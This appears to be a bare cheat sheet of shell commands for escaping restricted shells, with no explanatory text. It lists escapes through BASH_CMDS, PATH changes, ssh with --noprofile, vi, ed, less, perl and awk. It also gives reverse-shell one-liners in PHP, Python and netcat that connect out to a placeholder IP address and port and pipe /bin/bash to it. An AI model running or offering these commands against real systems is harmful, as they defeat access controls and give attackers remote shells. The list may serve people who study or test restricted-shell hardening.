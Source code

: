 
```shell
BASH_CMDS[a]=/bin/sh;a
```

```shell
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:$PATH
export SHELL=/bin/bash
```

### LIST ALL AVAL CMD:
```SHELL
compgen -c 
```

```shell
ssh psj@server_name -t "bash --noprofile"
```

```shell
vi
:set shell=/bin/bash
:shell
```

```shell
cd /home
echo $SHELL
ed
!'/bin/bash'
pwd
```

```shell
php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

python -c 'import os; os.system("/bin/bash");'
python3 -c 'import os; os.system("/bin/bash");'
```

```shell
perl -e 'system("/bin/bash");'
cd /
cd /home
```

```shell
nc  ip-address port-number -e /bin/bash
```

```shell
cd / 
echo $SHELL
less anyfile.txt
```

```shell
awk 'BEGIN {system("/bin/bash")}'
cd /home
cd ~
pwd
```

